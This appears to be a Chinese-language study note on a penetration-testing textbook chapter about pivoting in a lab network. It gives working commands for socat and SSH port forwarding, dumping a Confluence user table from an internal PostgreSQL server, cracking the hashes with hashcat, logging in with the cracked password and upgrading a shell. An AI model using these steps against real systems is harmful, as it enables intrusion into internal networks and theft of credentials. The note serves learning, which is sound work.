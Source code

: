 本篇对应教材第18章，主要内容“Linux端口转发”、“SSH隧道”、“Windows端口转发”，记录使用工具和命令

## 18.2 使用linux工具端口转发

### 18.2.3 socat端口转发

跳板机上

```armasm
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```

kali上连接跳板机的2345端口就会转发到内网10.4.50.215:5432端口

```armasm
psql -h 192.168.50.63 -p 2345 -U postgres
```

登录postgres数据库，查看数据库信息，查看表信息，查看内容

```armasm
\l
\c confluence
select * from cwd_user;
```

获得密码进行暴力破解

```armasm
hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt
```

破解出密码后，在跳板机上做端口转发

```armasm
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```

kali上ssh连上去

```armasm
ssh database_admin@192.168.50.63 -p2222
```

## 18.3 SSH隧道

### 18.3.1 本地端口转发

kali（192）---跳板1（192和10）---跳板2（10和172）--目标（172）

ssh需要交互式shell操作，需要在跳板1上转换交互式shell

```armasm
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh database_admin@10.4.50.215
ip addr
```

在跳板2上发现172段，查看路由，并扫描172段存活主机445端口
